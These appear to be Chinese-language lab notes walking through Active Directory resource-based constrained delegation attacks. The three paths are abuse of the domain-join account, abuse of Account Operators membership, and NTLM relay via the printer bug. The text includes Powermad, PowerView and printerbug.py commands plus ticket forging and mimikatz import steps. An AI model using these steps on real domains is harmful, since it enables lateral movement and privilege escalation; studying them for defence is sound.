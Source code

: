 #  资源委派

  配置的高级功能  windows2012以上

攻击条件：A机器的msDS-AllowedToActOnBehalfOfOtherIdentity属性的    sid值对应B用户或者机器     这时候B就可以控制A。		msDS-AllowedToActOnBehalfOfOtherIdentity属性为ServiceA，也就允许ServiceA利用s4u2self协议代表其他用户身份来访问data的话，那我们就可以做到横向移动及提权等操作。

 在机器上操作         sid值都不同

![1733582509627](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942251.png)

  退域在加域。下面这种不符合资源约束委派（第一种）的攻击条件:

![1733582926038](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942252.png)

### 利用

先看sid值是否相同（1），不同再看是否在ao组（2），最后再看（3）

资源约束委派利用分类：

1、通过管理主机加入域的用户拿下主机

2、已知Acount Operators组用户拿下主机

3、结合HTLM Relay攻击拿下主机（CVE-2019-1040）

#### 1 利用管理主机

条件：

1、允许创建机器账户

2、具有管理主机加入域的用户账户。也就是说sid值要相同，一个是被控机sid和目标机sid值相同，这样才能控制目标机

 前面翻车，换域，god.org 成功在sql机上查询被域用户创建的机器账户列表。
 
##### 条件
是需要都是同一个sid值，查到后可以看当前被控机的用户可以通过sid资源委派还能控制哪些机器。 就是找和当前被控机的用户sid值一样的主机，看其用户是否一样（sid+用户一样）

符合利用条件----查询被域用户创建的机器账户列表:：

![1733584843470](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942253.png)

  将test7用户加入到win8和Win7的sid控制，这里环境就是win7机器是test7用户 ，win8是datax用户，查询他俩的sid值相同，查询sid对应的用户为test7用户。两个机器都是用test7用户加入域。-----------重新梳理：win7-----test7机器（这里的机器是在域里面的机器名字）-----  test7用户加入域。     win2008(win8)-----datax机器--------test7用户加入域

满足了攻击条件，sid值相同，并且sid对应的用户为被控机用户。就可以借助被控机（win7）来控制（资源委派）另一个机器(win8)

本地是windows7-------xdpc(用户)----test7 （域内机器名）     win10-----xdpc(用户)------datax（域内机器名）

![1733585052719](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942254.png)

收集信息：

![1733644904364](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942255.png)

查找相同的sid用户-----xdpc：

![1733585149490](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942256.png)

环境问题，被控机不出网，还是在本地演示，就不在c2服务器上演示了，说明意思即可(信息收集就不演示了)。----    被控机为win10，sid符合当前攻击条件且被控机用户刚好也是sid值相同的用户：

​     	开始利用，3个方案 ：addcpmputer（需要明文）  bloodyad（需要明文）  												powermad(不需要明文)不过需要上传文件（推荐使用这个）。上传的是自己powershell的模块，用来创建一个新用户(xiaodiA)，然后再用另一个模板来获取新增用户的sid值，最后用命令来修改目标主机data的委派属性sid修改成新建用户的，修改成自己新建的用户来资源委派控制data机。也就是datax机器的msDS-AllowedToActOnBehalfOfOtherIdentity属性sid值修改成自己新建的用户sid值。 

这里为什么要新建一个用户来继而控制data机呢？为什么不直接用被控机test7来控制：													因为后续的攻击需要被控机的明文密码等条件，如果这里被控机明文密码不知道，那就无法进行后续，而新建的用户密码是知道的。

使用PowerMad工具创建机器账户（脚本工具先上传上去）新建xiaodiA用户成功：

![1733645688943](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942257.png)

获取新增的xiaodiA的sid值--powershell Import-Module .\PowerView.ps1;Get-NetComputer xiaodiA -Properties objectsid  ：

![1733646005585](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942258.png)

下来就是将xiaodiA的sid值委派给datax，这样xiaodiA就成datax的领导-----先看这里datax是没有设置“领导”：

![1733646113271](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942259.png)

修改datax的领导值为xiaodiA的sid值  (小翻车------这里需要将powershell提到管理员权限，否则执行不了会报错，下来就是执行成功)：

![1733646943159](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942260.png)

  用新建的(xiaodiA)连接被控机，连接工具为im工具箱里的py工具，还是socks代理，然后本地连接。下来就是利用xiaodiA生成连接票据，在导入，利用。

利用xiaodiA申请访问datax主机cifs服务票据------这里环境问题就在本地演示了-----正常应该socks代理然后py生成票据，将票据上传目标机后用mimikate导入利用：

![1733648960340](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942261.png)

导入票据到内存：

![1733649148733](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942262.png)

连接利用票据：-----------小插曲，弄错了搞反了：这里的win10被控机是datax机器，而目标Win7是test7用户，test计算机。所有前面一样，需要更改一些：

修改datax主机委派属性时候将目标改为test7（刚才是datax）,cifs服务票据里面也改test7为目标

![1733653257904](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942263.png)

![1733653314396](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942264.png)

然后还有注意都是管理员权限，powershell也是-------导入票据到内存（不需要在命令行中继续包含 `mimikatz` 命令，直接敲命令就行）--------连接利用票据：

![1733653450332](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942265.png)

这里连接也是在管理员的窗口运行（已踩坑）

![1733653571986](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942266.png)

#### 2 利用AO组

第二种工具的环境配置：win7----webadmin（机器名----在域里面的名字）----webadmin用户加入域     win2008-----datax-----test7用户加入域 。

win10------webadmin------webadmin           windows7-------xdpc(用户)----test7

![1733653890223](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942267.png)



![1733656214337](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942268.png)



 条件：被控用户属于Acount Operators组的用户账户,因为这组里面的成员可修改域内任意主机的msDS-AllowedToActOnBehalfOfOtherIdentity属性。(除DC)，然后这里查询当前后发现被控机用户刚好在这组内。下面思路基本一样，添加xiaodiB用户，获取sid值。代理，获取票据，导入，建立连接

加ao组后：

![1733656511526](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942269.png)

将webadmin加入ao组前后前使用查看命令------判断有没有利用条件：

![1733656735966](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942270.png)

此时ao组成员webadmin刚好为被控机，所以可以利用，后续和前面一样，主要就是要有能创建用户的权限。能执行第一步：使用PowerMad工具创建机器账户powershell Import-Module .\Powermad.ps1;New-MachineAccount -MachineAccount serviceA -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force) ，后面一样

#### 3：HTLM Relay



结合HTLM Relay攻击。利用漏洞

1、能创建机器账户

2、目标开启打印机服务

 翻车~      kali监听，然后利用打印机漏洞让DC强制访问被控机，得到hash。后面利用hash生成票据。。。。

条件：

![1733661927163](https://cdn.jsdelivr.net/gh/maybeyjb/blue-team/img/202506170942271.png)

这里是使用ntlmrelayx工具responder -I eth1 -wd进行监听，但是需要代理，因为要在同一个网段里才能监听到，然后用  python printerbug.py xiaodi.local/webadmin:admin!@#45@(DCip)   (kali ip )  ,强制让kali访问监听的得到DC的hash，


### 总结：
找和被控机的sid和用户一样的目标机子，然后就可以委派这个目标机子：通过脚本工具生成一个票据后在通过minikate导入票据到目标，实现横向成功。
